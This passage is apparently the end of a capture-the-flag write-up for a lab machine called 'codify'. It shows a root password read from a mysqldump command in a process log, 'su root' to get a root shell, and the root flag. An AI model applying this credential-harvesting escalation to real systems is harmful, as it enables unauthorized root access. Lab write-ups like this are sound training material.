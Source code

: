 ```
2025/01/10 11:10:11 CMD: UID=0    PID=2303   | /usr/bin/echo Done! 
```

In the `usr/bin/mysqldump` command we see the password under the `-p` option.

```
kljh12k3jhaskjh12kjh3
```

Now we can run the command:

```
su root
```

Once we give the password, we are able to receive the shell as root.

```
root@codify:/home/joshua# whoami
root
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
```

Now opening the root folder we are able to see the root.txt flag:

```
3616ec40cb1a836a707993de87f492d1
```
